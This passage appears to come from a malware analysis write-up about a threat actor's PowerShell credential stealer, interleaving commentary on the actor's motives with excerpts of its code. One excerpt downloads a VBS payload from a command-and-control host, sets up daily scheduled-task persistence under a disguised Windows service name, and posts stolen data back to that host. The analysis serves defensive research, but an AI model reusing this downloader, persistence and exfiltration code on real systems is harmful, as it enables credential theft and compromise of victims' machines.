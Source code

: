```csharp
  $pay = sendpost2;
};
ri -Path $path_tmp -Force;
```

<h6>A second variant of the code use an additional class in .NET for stealing the credentials. The first block of code content the same structure with the variables and add the create of the persistence method by task scheduled. The first new functionality is that sends return of operation to the C2 but only push success of fail operation, no one debug value are present for know the reason of the failure operation, that proves that the TA is more interested by the return of the successful stolen data. Whether as attacker that you are in a red team or a well organized cybercriminal group, having debug informations is important for know the reasons or and idea of problems (action blocked by AMSI, AV, invalid rights, unknown error with a specific build OS ...) and keep a fix or an alternative method for bypass the problem. This already gives the idea that the TA is only motived for the instant gain not as resell interesting infrastructures before ransom it (TA505 to silence by examples), for a botnet or intermediate C2 platform structure.</h6>

```csharp
try
{
  $path_lib = $env:PUBLIC + "\Libraries"
  if (-not (Test-Path $path_lib)) { md $path_lib; }
  $path_vbs = $path_lib + "\WindowsIndexingService.vbs";
  $netclient = New-Object System.Net.WebClient;
  $netclient.Credentials = [System.Net.CredentialCache]::DefaultCredentials; 
  $netclient.DownloadString("http://z2uymda1mtk.top/?need=ma7dd05&") | out-file $path_vbs;
  schtasks.exe /create /TN "WindowsApplicationService" /sc DAILY /st 00:00 /f /RI 16 /du 23:59 /TR $path_vbs;  # Create service WindowsApplicationService -> Keep persistence
}
catch{}
function SendStringToC2( $DatatoSend )
{
  $netclient = New-Object System.Net.WebClient;
  $netclient.Credentials = [System.Net.CredentialCache]::DefaultCredentials;
  $netclient.Headers.Add("Content-Type", "application/x-www-form-urlencoded");
  $netclient.Encoding = [System.Text.Encoding]::UTF8;
  try
  {
    $RepCode = $netclient.UploadString( "http://z2uymda1mtk.top/", "guid=temp_9192217407&" + $DatatoSend );
    return $RepCode;
  }
  catch{};
  return $false;
};
```
<h6>This next function is used for recognized the format of the payload send by the C2 by magic numbers, if this a PE, a COM executable or a encrypt payload (by unknown flag). This section is correctly coded and are very different of the rest of the code, seems to be a copy/paste or another person of the group have coded this part.</h6>

```csharp
function Get-ExecutableType
{
  [CmdletBinding()]
  param (
      [Parameter(Mandatory = $true)]
      [ValidateScript({ Test-Path -LiteralPath $_ -PathType Leaf })]
      [string]
      $Path
  )
  try
  {
        try
        {
```